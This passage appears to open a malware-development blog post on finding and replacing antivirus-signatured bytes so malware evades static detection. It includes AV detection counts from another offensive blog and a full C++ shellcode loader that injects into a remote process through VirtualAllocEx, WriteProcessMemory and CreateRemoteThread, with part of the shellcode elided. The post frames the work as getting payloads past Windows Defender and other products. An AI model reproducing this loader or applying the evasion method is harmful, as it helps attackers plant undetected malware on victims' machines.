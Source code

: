 ```yaml
---
title: Identifying Malicious Bytes in Malware
date: 2024-02-07
categories: [malware-dev]
tags: [malware, evasion]
---
```


This post will cover the process of identifying malicious bytes in malware, malicious bytes referring to known and signatured byte sequences that are often used by security products to identify and detect malware. The goal is to identify these bytes and replace them with benign bytes, in order to evade static detection.

## Introduction
An age old detection for malware has been the use of file hashes or signatures, however these are easily evaded by changing a couple of bytes in the file- which would result in a completely different hash. 

A blog post by [ired.team](https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates) explored the use of Metasploit templates to create payloads using a non-standard template to generate payloads with unique hashes and signatures. However, despite the use of a non-standard template, the payloads were still detected by 36/68 AVs on VirusTotal, including **Windows Defender**.

A solution that they found to be more effective was to develop a custom loader, and load the shellcode into a remote process using `CreateRemoteThread`. 

This approach resulted in significantly reduced detections... with only 8/68 detections...

See: [AV Bypass with Metasploit Templates and Custom Binaries](https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates)

The loader they used was a simple remote shellcode loader using `CreateRemoteThread` with no encryption or obfuscation. The code is as follows:
```cpp
#include "stdafx.h"
#include "Windows.h"

int main(int argc, char *argv[])
{
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
                [..SNIP...]
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);

    return 0;
}
```
{: file="inject-remote-process.cpp" }
